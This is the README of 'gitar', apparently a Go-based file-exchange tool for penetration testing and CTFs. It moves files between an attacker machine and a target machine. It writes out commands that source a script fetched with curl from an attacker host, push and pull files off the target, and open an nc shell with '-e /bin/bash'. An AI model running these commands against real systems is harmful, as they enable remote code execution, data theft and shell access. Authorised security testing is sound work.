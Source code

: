 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 focusing on having the simplest interactions for file exchange (Pentest/CTF)<br>🎵 with additional functionalities: <a href=#send-mode>quick file sending</a> and <a href=#webhook-mode>HTTP webhook logging</a> </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-screen.png)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]` *(with filename completion)*
 - **Download a directory** from my attacker machine: `pullr [directory]` *(with filename completion)*
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up


### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
source <(curl -s http://[attacker_ip:port]/alias)
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --net host --cap-drop=all --cap-add=dac_override --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" ariary/gitar
```

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**



<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)
	* `dig`: to automatically find extarnal IP (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

## Additional Functionalities

### `send` mode

Use this mode to quickly send a file to a target machine using different method/protocol. The advantage is that you do not have to remember the command line (if required field is not specified with flags it will be asked in a prompt).

It also has a kind of memory. with the `-l` flag it will use the previous configuration to send the file.
```shell
# send /img folder using scp with user root to target.com
gitar send scp -t target.com -u root /img
# now send exploit.sh to the same hsot
gitar send -l exploit.sh
```

### `webhook` mode

Use this mode if you want to have some logs about incoming HTTP requests. It enables us to:
* Log request information
	* request parameter values
	* request header values
        * request body 
* Override response
	* header 
* Forward request to another http server (~ local logging middleware)
* Serve directory
```shell
# log incoming request and retrieve payload parameter value
gitar webhook -P payload
```
## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus

### Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine, after shortcuts have been loaded on target. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

#### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

#### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**


	
	
